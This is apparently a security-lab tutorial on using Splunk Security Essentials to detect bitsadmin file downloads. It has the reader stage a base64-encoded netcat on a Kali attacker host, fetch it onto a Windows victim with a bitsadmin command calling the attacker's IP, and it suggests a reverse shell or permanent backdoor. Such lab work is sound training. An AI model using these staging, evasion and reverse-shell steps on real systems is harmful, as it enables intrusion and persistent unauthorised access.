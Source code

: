 ### Splunk Security Essentials
1. Let's get familiar with **Splunk Security Essentials**. Explore security use cases and discover security content to start address threats and challenges.
But before you go, make sure you have **Splunk Common Information Model (CIM)** app installed (if not, install, pls). 

Apps > Find More Apps 
![](attachments/2.5-CIM_install.png)

---
2. Install Splunk Security Essentials

Apps > Find More Apps
![](attachments/2.5-SSE_install.png)

3. Open Splunk Security Essentials

Click on Find Content > Security Detection Basics > Security Monitoring

![](attachments/2.5-SSE_open.png)


![](attachments/2.5-SSE_open2.png)  



4. Find **BITSAdmin Download File** and open it

![](attachments/2.5-SSE_open_bitsadmin.png)

Here you get a description about the query which identifies Microsoft Background Intelligent Transfer Service utility bitsadmin.exe using the transfer parameter to download a remote object (for example a malware stager, or other payload).  



![](attachments/2.5-SSE_bitsadmin1.png)  



  

 
And you can check the query (or modify - not recommended at first time) and run it to get some interesting result.

![](attachments/2.5-SSE_bitsadmin2.png)  


If you see similar (red exclamation marks) just click "Add Macro" one by one.
![](attachments/2.5-SSE_bitsadmin_error.png)  


5. Lets go to the Kali, login via ssh, and prepare the attacker host. We need a webserver to host our malware/payload or "only" a reverse shell capable tool. To do this, we should install a python based http server (or similar).

```bash
pip install rangehttpserver
```

Create a directory to store our tools for the upcomings.
```bash
mkdir attack
cd attack
```

We would like to use the netcat to open a a reverse shell to our attacker machine, so our goal is to transfer the netcat to the victim machine. Copy the netcat utility (windows version) to this newly created folder.
```bash
cp /usr/share/windows-resources/binaries/nc.exe .
```

To avoid blocking our malicious transfer encode(base64) and rename the infamous/famous netcat binary.

```bash
base64 nc.exe > nc64
```

Now we are ready to host our tool by our new http server, so lets start it from the attack directory where our nc64 (the encoded binary) is. 

```bash
python -m RangeHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

6. Switch to the victim machine (Win10, ip: 198.18.133.10), and start downloading the prepared nc64 by bitsadmin (mostly because if we managed to get into a system by an exploitation most of the times we only have a shell for the first steps)

```bash
bitsadmin /transfer n http://198.18.24.100:8080/nc64 c:\temp\myshell64
```


7. Lets check the tracks of previous operation by the Splunk Security Essentials bitsadmin donwloads detection query. Do the search, examine the details and click on the data to get more information about the event. 
![](attachments/2.5-SSE_bitsadmin3.png)


Optional: now we have a base64 encoded netcat on the wictim host, we can decode, rename and use it to open a reverse shell to our kali (just for fun - or using maintain a permanent backdoor).
